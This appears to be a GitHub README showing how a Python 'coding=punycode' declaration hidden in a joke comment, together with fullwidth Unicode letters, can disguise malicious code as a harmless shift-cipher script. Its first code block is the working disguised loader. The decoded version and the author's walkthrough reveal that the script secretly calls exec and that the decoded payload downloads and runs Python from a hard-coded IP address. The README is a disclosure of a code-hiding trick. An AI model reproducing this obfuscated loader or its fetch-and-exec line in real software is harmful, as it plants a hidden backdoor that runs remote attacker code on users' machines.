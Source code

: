 # The weird code

This is a demonstration that the encoding declarations ( https://docs.python.org/3/reference/lexical_analysis.html#encoding-declarations ) of python in conjunction with punycode encoding can be used to craft malicious code snippets that look benign.



## Demonstration Code

The code: <br>
(Note: copying this code may break it as described at the bottom of `The encoding used in the code`)

```py
#They say codying is fun, but I like puns, so when I code, coding!=funnycode, but coding=punycode ... anyways, here is some nice python code :)

I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: -47415qpygaa76ea29ah9daca59abba63qeacaacc99aad01ba90babbc80bf52ba42j1lla61b70aqa632n6a49a6a40b9a19aedb39aaead4agc17j4lb81kao43bip4nlafc6b63awaf14bvobfo1b48ac55bmava93bjap79km616kt0aa689f
```


## What does it do?
Lines with comments don't matter, right? <br>
So let's look at the code without comments first:

```py
I="I"
love="love"
python="python"

print(I, love, python)

def shift_cipher(s, key):
    return ("".join(chr((ord(c) + key) % 128) for c in s))

secret="ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))
```

Up to `print(I, love, python)` it is quite obvios: <br>
We just assign three variables and print them.
In python, printing multiple values with a single call to `print` will seperate them with a space.
So we get:

```
I love python
```

Next up is the `shift_cipher` function.
As the name indicates, it takes the character code of every character of the provided string and adds the key to it.
Then, ensures that it is between `0` and `128` (some ascii character) and converts it back to a character.

if we called `shift_cipher("abz", 1)` we would get `"bc{"` (`"{"` just happens to be the next character after `"z"`).

So if we shift `"ymnx%nx%f%xjhwjy%rjxxflj&"` by `-5`, we just have to look up the characters in an ascii table and subtract `5` and look at the character we get from that.
If we were to reach negative numbers we would have to wrap around starting at `127`.
But that never happens.

So, we expect the code to print `this is a secret message!`.


## But what does it REALLY do?

See, python is weird.
Comments are not always comments.
Especially in the first two lines, you can use comments to indicate how the python interpreter should do some things.


### Encoding

One thing you can specify is the encoding (The way how characters are encoded. This is relevant as soon as you have characters that are bigger than 255 and thus cannot be represented in a single byte.).
By default, python is supposed to use `utf-8` (but I'm not sure this is the case on Windows.) - the most sensible encoding to use!
But if we want something else, we can add a comment in the first line specifying a different encoding like this:

```py
# coding=utf-16
```

More specifically it can also be in the second line, if the first line is a comment.
And, the interpreter searches for the following pattern: `coding[=:]\s*([-\w.]+)` - meaning `coding` followed directly by `=` or `:`, then an arbitrary amount of whitespace characters followed by an arbitrary amount (but at least one) of `.`, `-`, or characters that match `\w` (`a-z`, `A-Z`, `0-9`, and `_`).
One important observation: The interpreter searches this pattern ANYWHERE in the line, so the line can also contain a lot of crap apart from it.


### The encoding used in the code

So if we look through the first line of the script, we can find `coding=punycode` which matches the pattern!
So we use `punycode` to encode the file?
WTF is that?

You may know that Internet domains can contain emoji characters now (e.g., `i❤️.ws` is a valid domain).
However, everything that makes up the backbones of the internet can basically only handle ascii characters.
So punycode was invented to encode arbitrary emojis etc. in ascii strings.
Here is a link to wikipedia explaining it a bit (we will cover the important parts below anyways though): https://en.wikipedia.org/wiki/Punycode
For instance, `i❤️.ws` would be encoded as `xn--i-7iq.ws`.

The important parts of punycode encoding to understand the script is:
1. it keeps ascii characters the same and doesn't touch them
2. it removes all non-ascii characters but adds information on how to add them back in at the end of the encoded file
3. to mark the beginning of where the information to add characters back in starts, it adds a `-` character just before.

So after the last `-` character, there will be information on how to insert special characters into the script.

The reason this code may not work if you copy paste it around is that changes to whitespace or newlines (which are sometimes made by text editors) matter to the punycode encoding and will break the code.


### Looking at the ACTUAL code

I don't really understand the details of the encoding, but we can decode the script using python (this script just removes the first line containing the comment and decodes the rest using punycode):

```py
import sys
print((b"\n" + b"\n".join(open(sys.argv[1], "rb").read().split(b"\n")[1:])).decode("punycode"))
```

We get the following code (see `decoded.py`):

```py


I="I"
love="love"
python="python"

print(I, love, python)

# shift cipher!
def shift_cipher(s, key):
    return ｅｘｅｃ("".join(chr((ord(c) + key) % 128) for c in s))

# this string is super secret, so I encrypted it!
secret="﩮全冀充勺啕逸喙勺况况﩮逸勉勺頻勇喙頻喝啕逸辶喝逸充﨏頻墳頻難鶴充勉喙勺况充冀頻侀鶴﨧舘啕啕冀憎勤勤層嘆勉喝屮喝勉喝悔嘆勉喝卑卑憎喝器器屮勤逸響﨧郞勉勺頻辶響鶴郞勉響頻難充響頻鶴郞郞﨨ymnx%nx%f%xjhwjy%rjxxflj&"

print(shift_cipher(secret, -5))

# I love python comments, so I put one more here with some crap <3:
# here is some crap: 
```

One other thing important in python is, that unicode characters that are letters (for example `ｅ`) are treated like their ascii counterparts (in this case `e`) for variable names.
So `ｅｘｅｃ` is the same as `exec`, but it disappears to the end of the file when encoding with punycode.

If you are new to python, `exec` basically takes a string and executes it as python code.
And `shift_cipher` no longer just decrypts the given string, but it also executes the result.
So if we give it ("encrypted") evil code, we may be in trouble.

We now also see that `secret` actually contains a whole lot of unicode characters, but what happens if we put them through `shift_cipher`?

The short answer is: Those symbols are chosen such that subtracting `5` from them does not convert them to usable code, but the `% 128` is also needed to make them useful.
With the `% 128` I can ensure that I can convert a unicode character that will be removed by punycode encoding and put at the end to any ascii character I want.
Thus, I can make that `shift_cipher` executes whatever python code I want after decrypting it without any characters in the python script changing except for the comment in the last line.

So what did I put into the string?
Let's decode it:

```py
import urllib.request as o
exec(o.urlopen("http://62.171.182.100:1337/bd").read().decode())#
```

This is bad!
The script sends a request to `http://62.171.182.100:1337/bd` and executes whatever it gets back.
So I basically can send arbitrary malicious python code and it gets executed!


## The moral of the story

Don't trust my code!
